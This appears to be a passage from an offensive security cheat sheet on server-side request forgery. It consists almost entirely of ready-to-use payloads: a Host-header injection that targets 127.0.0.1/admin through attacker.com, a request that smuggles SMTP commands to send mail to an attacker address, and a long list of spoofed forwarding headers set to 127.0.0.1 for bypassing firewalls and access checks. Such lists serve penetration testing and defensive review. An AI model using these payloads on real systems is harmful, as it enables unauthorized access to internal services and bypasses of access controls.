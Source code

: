 Blind SSRF using HTTP Host Header: <br> **`http://attacker.com\nHost: 127.0.0.1/admin`**

Blind SSRF using SMTP Header:<br>  **`GET / HTTP/1.1\nHost: vulnerable.com\n\nRCPT TO:<attacker@attacker.com>\nDATA\nSubject: SSRF\n.\nQUIT\n`**

<br>

## SSRF, Firewall and forbidden bypass list

    Base-Url: 127.0.0.1
    Client-IP: 127.0.0.1
    Http-Url: 127.0.0.1
    Proxy-Host: 127.0.0.1
    Proxy-Url: 127.0.0.1
    Real-Ip: 127.0.0.1
    Redirect: 127.0.0.1
    Referer: 127.0.0.1
    Referrer: 127.0.0.1
    Refferer: 127.0.0.1
    Request-Uri: 127.0.0.1
    Uri: 127.0.0.1
    Url: 127.0.0.1
    X-Client-IP: 127.0.0.1
    X-Custom-IP-Authorization: 127.0.0.1
    X-Forward-For: 127.0.0.1
    X-Forwarded-By: 127.0.0.1
    X-Forwarded-For-Original: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Forwarded-Host: 127.0.0.1
    X-Forwarded-Port: 443
    X-Forwarded-Port: 4443
    X-Forwarded-Port: 80
    X-Forwarded-Port: 8080
    X-Forwarded-Port: 8443
    X-Forwarded-Scheme: http
    X-Forwarded-Scheme: https
    X-Forwarded-Server: 127.0.0.1
    X-Forwarded: 127.0.0.1
    X-Forwarder-For: 127.0.0.1
    X-Host: 127.0.0.1
    X-Http-Destinationurl: 127.0.0.1
    X-Http-Host-Override: 127.0.0.1
    X-Original-Remote-Addr: 127.0.0.1
    X-Original-Url: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-Proxy-Url: 127.0.0.1
    X-Real-Ip: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Remote-IP: 127.0.0.1
    X-Rewrite-Url: 127.0.0.1
    X-True-IP: 127.0.0.1
